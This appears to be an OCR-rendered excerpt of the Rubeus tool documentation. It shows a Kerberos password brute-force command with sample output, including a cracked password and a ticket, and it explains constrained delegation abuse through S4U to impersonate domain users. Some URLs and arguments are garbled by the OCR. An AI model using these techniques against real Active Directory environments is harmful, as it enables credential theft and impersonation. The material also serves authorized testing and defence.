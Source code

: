 The **brute** action will perform a Kerberos-based password bruteforcing attack.

 C:\Rubeus>Rubeus.exe brute /passwordassword123!! /noticket

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.5.0

 [-] Blocked/Disabled user => Guest
 [-] Blocked/Disabled user => DefaultAccount
 [-] Blocked/Disabled user => krbtgt
 [-] Blocked/Disabled user => disabled
 [+] STUPENDOUS => newuserassword123!!
 [*] base64(newuser.kirbi):

 doIFLDCCBSigAwIBBaEDAgEWooIELDCCBChhggQkMIIEIKADAgEFoRAbDlR...(snip)...


## Constrained delegation abuse

Breakdown of the constrained delegation commands:

| Command | Description |
| ----------- | ----------- |
| [s4u](#s4u) | Perform S4U2self and S4U2proxy actions |


### s4u

The **s4u** action is nearly identical to [Kekeo](https/github.com/gentilkiwi/kekeo/)'s **tgs::s4u** functionality. If a user (or computer) account is configured for constrained delegation (i.e. has a SPN value in its msds-allowedtodelegateto field) this action can be used to abuse access to the target SPN/server. Constrained delegation is complex. For more information see [this post](http/www.harmj0y.net/blog/activedirectory/s4u2pwnage/) or Elad Shamir's ["Wagging the Dog"](https/shenaniganslabs.io/2019/01/2Wagging-the-Dog.html) post.

A **TLR** explanation is that an account with constrained delegation enabled is allowed to request tickets _to itself_ as any user, in a process known as S4U2self. In order for an account to be allowed to do this, it has to have **TrustedToAuthForDelegation** enabled in it's useraccountcontrol property, something that only elevated users can modify by default. This ticket has the **FORWARDABLE** flag set by default. The service can then use this specially requested ticket to request a service ticket to any service principal name (SPN) specified in the account's **msds-allowedtodelegateto** field. So long story short, if you have control of an account with **TrustedToAuthForDelegation** set and a value in **msds-allowedtodelegateto**, you can pretend to be any user in the domain to the SPNs set in the account's **msds-allowedtodelegateto** field.

This "control" can be the hash of the account (`/rc4` or `/aes256`), or an existing TGT (`/ticket:X`) for the account with a **msds-allowedtodelegateto** value set. If a `/user` and rc4/aes256 hash is supplied, the **s4u** module performs an [asktgt](#asktgt) action first, using the returned ticket for the steps following. If a TGT `/ticket:X` is supplied, that TGT is used instead.
